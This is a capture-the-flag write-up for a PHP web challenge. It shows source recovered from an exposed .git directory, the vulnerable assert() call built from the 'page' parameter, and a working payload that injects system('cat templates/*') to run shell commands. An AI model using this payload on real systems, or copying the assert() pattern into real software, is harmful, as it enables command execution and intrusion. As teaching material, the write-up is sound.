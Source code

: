 # mfw / My first web server

In this challenge, we had as hint that there was PHP, GIT & bootstrap.

So GIT was the first hint: 

```
  challenge/.git/ 
```

Found all objects but was unable to git clone the repository.

Instead, I downloaded each file in the .git repository and used the 

```
  git checkout -- index.php templates/*
```

to get all the files back.
By Birdy42

By reading the source we can quickly see where the vuln is: a misused assert() allow us to inject php code by the $file var:

```
if (isset($_GET['page'])) {
        $page = $_GET['page'];
} else {
        $page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```

Okey, so we want execute some codes, specially system command, but first we have to make a good formed assertion, it give us a payload like that:

```
','..') === system('cat templates/*') || strpos('huhu
```
And you get the flag!
